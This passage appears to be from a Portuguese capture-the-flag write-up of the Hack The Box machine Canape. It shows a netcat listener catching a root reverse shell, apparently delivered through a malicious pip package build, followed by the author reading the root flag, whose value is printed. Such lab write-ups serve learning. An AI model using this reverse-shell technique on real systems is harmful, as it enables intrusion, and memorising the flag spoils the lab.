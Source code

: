 E no meu pc receber a shell. Observe o que é alguém com sono tentando ler um arquivo no terminal:

```
└──╼ $nc -l -v -p 1338
listening on [any] 1338 ...
connect to [10.10.14.120] from git.canape.htb [10.10.10.70] 47554
root@canape:/tmp/pip-7IjjG6-build# ls
ls
bin             etc               pip-delete-this-directory.txt  share
data            FakePip.egg-info  pip-egg-info                   user.txt
erl_crash.dump  lib               releases                       var
erts-7.3        LICENSE           setup.py
root@canape:/tmp/pip-7IjjG6-build# cat /root
cat /root
cat: /root: Is a directory
root@canape:/tmp/pip-7IjjG6-build# ls
ls
bin             etc               pip-delete-this-directory.txt  share
data            FakePip.egg-info  pip-egg-info                   user.txt
erl_crash.dump  lib               releases                       var
erts-7.3        LICENSE           setup.py
root@canape:/tmp/pip-7IjjG6-build# cd /
cd /
root@canape:/# ls
ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@canape:/# cd /root
cd /root
root@canape:/root# ls
ls
root.txt
root@canape:/root# cat root.txt
cat root.txt
928c3df1a12d7f67d2e8c2937120976d
```
